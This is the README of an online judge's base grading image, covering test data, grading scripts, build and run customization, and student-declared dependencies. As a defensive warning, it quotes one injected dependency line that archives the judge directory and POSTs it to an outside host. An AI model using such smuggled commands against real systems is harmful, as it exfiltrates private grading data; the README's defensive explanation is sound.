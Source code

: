 # OJ Sample judging image

This image serves as a base for grading student submissions. 
There are many hardcoded restrictions so please do read this document! 
If in doubt, you can consult the reference implementation.

# Quick start

We have set up this base image for simple judging tasks, which

* runs on ubuntu 16.04
* submission is a single c source file named `main.c` targeting c11
* compiled binary takes input from STDIN and print to STDOUT
* output is graded by `diff`ing it with a predefined reference output
* may have numerous test cases
* does not require installing student-defined dependencies with `apt` or `pip3`

If your need happens to match this, you can start reading the section on
where to place test data. 
If not, we have also written a few common customization guides.
If all failed, please refer to the [WALKTHROUGH.md](WALKTHROUGH.md)
we have written. 
This detailed guide contains everything you will need to rewrite this
image to suit your needs.

## Test data location
It is placed in `tests/` directory. Please refer to readme inside those 
directories on details.

## More testcases/Different testcase worth differetly

It is all within `grade/grade.py`. The existing template (and its comments) should help you a lot in understanding how to write it.

You don't have to strictly follow the template's coding style or overall control flow. As long as your program is properly outputing scoring info and terminates properly afterwards, you can do whatever you like inside the grading script. If you need a even more drastical change, you can scrape the entire script and change `grade` script instead.  More on these scripts in [WALKTHROUGH.md](WALKTHROUGH.md).

## Customize build command

1. Edit `build` script. 
1. Replace line 4 with your command.
1. If your command require addition packages, please add them to
relevant location in `Dockerfile`

Please be ware your compile command have connectivity to the internet.

Please note the default run script requires an executable file at 
`/test/executable` as the student program.
Since you are using custom compile command, you may also wish to use
a custom run command.

## Customize run command
1. Edit `run.py` script. 
1. Replace line 101 with the executable.
2. Replace line 106 with the arguments to the executable including `argv[0]`
 which is executable name.
1. There are various other settings can be changed in the script.
 
 For anything more advanced

## Install student defined dependencies

*If you are using python, please note `pip install .` is considered a 
build command and should not be used here.*

Uncomment everything inside `setup` script. 

Oh, Please don't uncomment the shebang line (`#!/usr/bin/env bash` line)

This will allow student to place a file named dependencies. 
This file is a key-value file, with key being the installation method,
and the value being the dependency.
One pair per line.
The key-value is separated with three colons (`:::`)
This image comes with `apt` and `pip3` installation method but it is 
easy to define your own.

NOTE: For sake of security, we enforce a rule of *one dependency per line*.

### Adding/removing custom dependency installation method

Open `dep.awk`, while you may not be familiar with awk, the template 
should be easy enough to follow.

First, you select a good identifier to indicate the installation method.
This identifier does not need to have connection with the actual
install command, e.g. `asjdui` can be used to identify `pip3 install -U`
but your student will believe you can't name things properly.

You then think of how the actual installation should commence.
You should write a command template that would install the package.

You now fill the following template and append the result to `dep.awk`.

    $1~/<identifer>/ {
        print "run_cmd.py <install command>" "--" $2 
    }

---

Remember the student may give a line like this

    apt:gcc;tar -zcvf /t /judge;curl -X POST example.com/post -d /t

So it's suggested to pass the dependency as a single argument. 
This is also why we enforce the rule of *one dependency per line*.

We have provided two wrappers `run_cmd.py` and `run_cmd_no_slash.py`
to facilitate this need.

The first wrapper will take first argument as target executable, other 
argument before `--` as options, and join everything after `--` with
a space as delimiter and use the result as a whole as the last argument 
to the target executable.   

The second wrapper will additionally reject any package that has `/` in
it.
This will be helpful to prevent package manager from installing from 
local directory, as installation script of a local package is not as
trusty as one on e.g. `PyPI`.

# Customize grading method
It is suggested to use the utilities in `grading/util.py` as the OJ
requires a specific pattern in `STDOUT` to be able to read the grading
result.

You can consult `grading/grade.py` on how to use it.

